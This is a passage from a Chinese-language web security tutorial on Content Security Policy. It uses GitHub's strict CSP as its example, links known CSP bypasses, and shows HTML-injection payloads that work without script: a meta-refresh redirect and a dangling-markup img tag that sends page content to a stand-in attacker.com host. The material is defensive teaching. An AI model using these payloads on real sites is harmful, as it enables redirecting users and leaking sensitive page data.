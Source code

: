 ``` csp
secured-user-images.githubusercontent.com/ *.githubusercontent.com;

manifest-src 'self';

media-src github.com user-images.githubusercontent.com/;

script-src github.githubassets.com;

style-src 'unsafe-inline' github.githubassets.com;

worker-src github.com/socket-worker-3f088aa2.js gist.github.com/socket-worker-3f088aa2.js
```

想要檢查 CSP 規則有沒有明顯漏洞的話，可以到 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)，而 GitHub 的 CSP 設置得很嚴謹，幾乎每一種資源都有設定。

這邊可以看到 script-src 的值只有 `github.githubassets.com`。因為沒有 `unsafe-inline` 的關係，所以 inline script 無法執行，而引入 script 的話也只能從 `github.githubassets.com` 這個來源引入，幾乎封死了執行 script 的路。

而許多網站的 CSP 其實並不會設置得這麼嚴格，就有比較高的機率會被繞過，例如說 [A Wormable XSS on HackMD!](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html) 直接用 cloudflare CDN 上的 AngularJS + CSTI 繞過；[HackMD Stored XSS & Bypass CSP with Google Tag Manager](https://github.com/k1tten/writeups/blob/master/bugbounty_writeup/HackMD_XSS_%26_Bypass_CSP.md) 則是用 Google Tag Manager 來繞。

另外，在某些情境之下就算乍看被封死，依然可以透過現有的 script 來幫你繞過，詳細資訊可以參考這個很經典的演講：[Breaking XSS mitigations via Script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets)。

那如果真的沒辦法執行 script，還有什麼可以做的呢？

就算只是插入 HTML，也還是可以做事的。

例如說可以利用插入 HTML meta tag 來造成重新導向，把使用者導到惡意網站去，像這樣：`<meta http-equiv="refresh" content="0;https://example.com">`。

或者是插入 `<img src="https://attacker.com?q=`（注意這邊 src 的雙引號只有開頭），讓整段 HTML 變成：

``` html
<img src="https://attacker.com?q=
<div>user info</div>
<div>sensitive data</div>
<div class="test"></div>
```

藉由 src 沒有閉合的 `"`，就可以拿到下一個 `"` 為止的 HTML 內容，把這些當作 query string 的一部分傳到 server，而這中間可能就會有一些敏感資料的存在。所以 `img-src` 的 CSP 規則也是有用處的，可以防止這類型的攻擊。

或也可以結合 [DOM Clobbering](https://blog.huli.tw/2021/01/23/dom-clobbering/)，看看有沒有什麼地方可以攻擊。

因此，就算不能執行 script，依然有其他攻擊手法可以用。

GitHub 在 2017 年時有寫過一篇 [GitHub’s post-CSP journey](https://github.blog/2017-01-19-githubs-post-csp-journey/)，特別講了他們的 CSP 是怎麼設計的，是為了防範哪些已知的攻擊，寫得非常不錯。他們甚至還有一個 bug bounty 是 [GitHub CSP](https://bounty.github.com/targets/csp.html)，就算沒有找到 XSS 也沒有關係，只要提出能繞過 CSP 的手法就可以拿到獎金。

## 第三關：降低 XSS 攻擊之損害
